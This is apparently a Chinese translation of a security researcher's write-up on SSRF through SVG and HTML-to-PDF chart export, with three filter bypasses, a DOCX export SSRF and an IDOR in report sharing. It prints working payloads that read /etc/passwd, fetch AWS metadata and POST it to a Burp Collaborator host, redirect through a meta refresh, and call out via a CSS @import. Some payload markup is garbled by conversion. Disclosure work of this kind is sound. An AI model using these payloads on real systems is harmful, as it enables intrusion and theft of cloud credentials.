


# SVG SSRFs 和旁路传奇

> 原文：<https://infosecwriteups.com/svg-ssrfs-and-saga-of-bypasses-777e035a17a7?source=collection_archive---------1----------------------->

## 大家好，希望你们一切都好，保持安全。这个博客是关于我最近使用 SVG，HTML 到 PDF SSRF 的经验，以及应用补丁的旁路。

## 介绍

我测试了一个应用程序，这是一个基于网络的分析解决方案，与世界各地的研究机构打交道，分析新的、新兴的研究趋势，并创建报告。

由于应用程序大量处理数据分析，该应用程序具有以饼图、图表、表格等形式显示研究数据的功能。也可以用数据准备报告，并与合作研究人员共享。

这些饼图、报告和图表可以导出为 DOCX、PDF 和 PNG 格式。你看到我要去哪里了吗？

## 剥削

正如我们之前了解到的，研究数据是以图表的形式显示的。下面是相同的截图。


在屏幕截图的右侧，我们看到了 ***“将图表导出为图像”*** 的选项

单击“将图表导出为图像”,我们会看到一个 POST 请求，其中包含图像内容，如下图所示。



我最初只是删除了整个`content`参数，并用

> # h1 注射

该图像是一个 PNG 图像，在用“h1”标记替换内容后，服务器没有任何验证/输出编码，我可以看到 h1 标记被成功注入。这个我截图不多。

由于 HTMLi 工作正常，我注意到许多`svg`标签被发送。我只是使用下面的有效载荷来检索`etc/passwd`的内容。

```
<svg width="500" height="500"  ae ni" href="http://www.w3.org/2000/svg" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/2000/svg" xmlns:xlink="[http://www.w3.org/1999/xlink](http://www.w3.org/1999/xlink)"><foreignObject width="500" height="500"><iframe ae ni" href="http://www.w3.org/1999/xhtml" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/1999/xhtml" src="file:///etc/passwd" width="800" height="850"/></foreignObject></svg>
```

我可以如预期的那样恢复文件内容。

## 已应用补丁

## ##旁路-1

客户对`iframe` `script`等标签进行了编码。所以获取文件内容不再像以前那么简单了。

在这里，我想介绍一个伟大的资源开发 SVG SSRF。

[](https://github.com/allanlw/svg-cheatsheet) [## GitHub - allanlw/SVG-cheatsheet:一个利用服务器端 SVG 处理器的 cheatsheet。

### 利用服务器端 SVG 处理器的说明书。- GitHub - allanlw/svg-cheatsheet:一个利用…

github.com](https://github.com/allanlw/svg-cheatsheet) 

我能够在我的服务器上使用`image`标签和其他使用`src`属性的标签接收回调。

因为 javascript (script)标签是不允许的，所以我的想法是想办法运行 JS。

通过[https://github.com/allanlw/svg-cheatsheet](https://github.com/allanlw/svg-cheatsheet)我了解到“**inline in event JavaScript**”可以运行。

我在[https://github.com/allanlw/svg-cheatsheet#inline-in-event](https://github.com/allanlw/svg-cheatsheet#inline-in-event)使用了有效载荷，内联 JS 确实工作了。

现在我需要一种方法来提取数据。我构建了下面的有效载荷

```
<svg width="100%" height="100%" viewBox="0 0 100 100" ae ni" href="http://www.w3.org/2000/svg" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/2000/svg" xmlns:xlink="[http://www.w3.org/1999/xlink](http://www.w3.org/1999/xlink)"><image xlink:href="[https://google.com/favicon.ico](https://google.com/favicon.ico)" height="20" width="20" onload="fetch('[http://169.254.169.254/latest/meta-data/hostname').then(function](http://169.254.169.254/latest/meta-data/hostname').then(function) (response) {response.text().then(function(text) {var params = text;var http = new XMLHttpRequest();var url = 'https://<>.burpcollaborator.net/';http.open('POST', url, true);http.send(params);})});" /></svg>
```

## 有效载荷是如何工作的？

1.  我们加载 Google 的 favicon，加载成功后，事件处理程序 ***onload*** 被触发。
2.  使用 Fetch API，我们请求 AWS 元数据。
3.  我们将元数据响应存储在“params”参数中。
4.  然后，服务器向 burp collaborator 服务器发出 POST 请求，将元数据作为 POST 主体。证据见所附图片。



## ##旁路-2

客户现在已经实现了阻止 javascript 的修复。此外，如果你记得有输出编码应用于标签，如`script` `iframe`等。

然后我读了这个有趣的旁路——[https://twitter.com/kunalp94/status/1502527605836173312](https://twitter.com/kunalp94/status/1502527605836173312)

我使用了同样的`meta`标签，结果很成功。分享下面的有效载荷

```
<meta http-equiv="refresh" content="0;url=http://169.254.169.254" />
```

## ##旁路-3

客户应用了更多的输出编码。我当时别无选择，然后想起了纳哈姆西的伟大演讲。下面的视频

在这里，Ben 谈到了在`style`标签(CSS)处的缺失验证。我也试过。

我尝试了`style`、`import`、`link`标签。我成功地得到了复试机会。

我使用了下面的有效载荷(HTML 在`style`标签中),它工作了！！

```
<style><h1>h1taginjection</h1><iframe ae ni" href="http://www.w3.org/1999/xhtml" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/1999/xhtml" src="file:///etc/passwd" width="800" height="850"/>
    [@import](http://twitter.com/import) url([http://ta79rlzq77p2kdoak91nqryxlorff4.burpcollaborator.net/import.css](http://ta79rlzq77p2kdoak91nqryxlorff4.burpcollaborator.net/import.css));</style>
```

## ##最终修复

在又一个补丁和更多的编码之后，我尝试了各种标签，但没有成功。

## 向 SSRF DOCX 报告

与上述攻击类似,“导出到 DOCX 的报告”也容易受到攻击。

## 我擅长分享报告

此外，还存在一个简单的 bug，报告可以与合作研究人员共享。有通过电子邮件邀请用户的功能，还可以设置权限，如仅查看和编辑。

该请求包含数字形式的`reportID`和`permission`、`email`。

我更改了`reportID`，并能够邀请我参加其他研究人员的报告。

这个博客到此为止。

希望你能从这个博客中获得一些新的东西。

普瑞瑟姆。